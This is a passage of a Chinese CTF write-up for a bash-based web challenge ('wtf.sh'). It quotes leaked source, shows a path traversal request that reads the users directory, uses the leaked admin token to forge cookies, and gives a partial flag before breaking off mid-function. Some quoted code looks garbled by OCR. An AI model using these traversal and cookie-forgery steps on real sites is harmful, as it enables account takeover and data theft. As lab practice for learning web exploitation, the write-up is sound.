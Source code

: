 
格式化代码：

```sh
<html>
<head>
    <link rel="stylesheet" type="text/css" href="/css/std.css" >
</head>
$ if contains 'user' ${!URL_PARAMS[@]} && file_exists "users/${URL_PARAMS['user']}"
$ then
$   local username=$(head -n 1 users/${URL_PARAMS['user']});
$   echo "<h3>${username}'s posts:</h3>";
$   echo "<ol>";
$   get_users_posts "${username}" | while read -r post; do
$       post_slug=$(awk -F/ '{print $2 "#" $3}' <<< "${post}");
$       echo "<li><a href=\"/post.wtf?post=${post_slug}\">$(nth_line 2 "${post}" | htmlentities)</a></li>";
$   done 
$   echo "</ol>";
$   if is_logged_in && [[ "${COOKIES['USERNAME']}" = 'admin' ]] && [[ ${username} = 'admin' ]]
$   then
$       get_flag1
$   fi
$ fi
</html>
```

在这段代码中我们可以看到当用户 `admin` 访问他的个人页面 `profile.wtf` 时 `get_flag1` 方法将被调用:

```sh
$   if is_logged_in && [[ "${COOKIES['USERNAME']}" = 'admin' ]] && [[ ${username} = 'admin' ]]
$   then
$       get_flag1
```

同时在泄露的源代码中我们观察到存在 `users` 目录，尝试路径穿越读取：

```bash
http://111.198.29.45:56854/post.wtf?post=../users/
```

![](/assets/images/move/20190915143133.png)

获取到 `admin` 用户的 SHA1 和 TOKEN: `uYpiNNf/X0/0xNfqmsuoKFEtRlQDwNbS2T6LdHDRWH5p3x4bL4sxN0RMg17KJhAmTMyr8Sem++fldP0scW7g3w==`.

修改 Cookie 中的 username 和 TOKEN 即可登录 admin 用户，在 `profile.wtf` 中获取到: `xctf{cb49256d1ab48803`.

挑战的第二部分有点复杂。 我们不得不调用`get_flag2`，但我们获取的代码不包含任何引用。

继续审计代码，在`wtf.sh`中发现一个解析和执行`.wtf`文件的函数：

```sh
max_page_include_depth=64
page_include_depth=0
function include_page {
    # include_page pathname
    local pathname=$1
    local cmd=
    [[ ${pathname(-4)} = '.wtf' ]];
    local can_execute=$;
    page_include_depth=$(($page_include_depth+1))
    if [[ $page_include_depth -lt $max_page_include_depth ]]
    then
        local line;
        while read -r line; do
```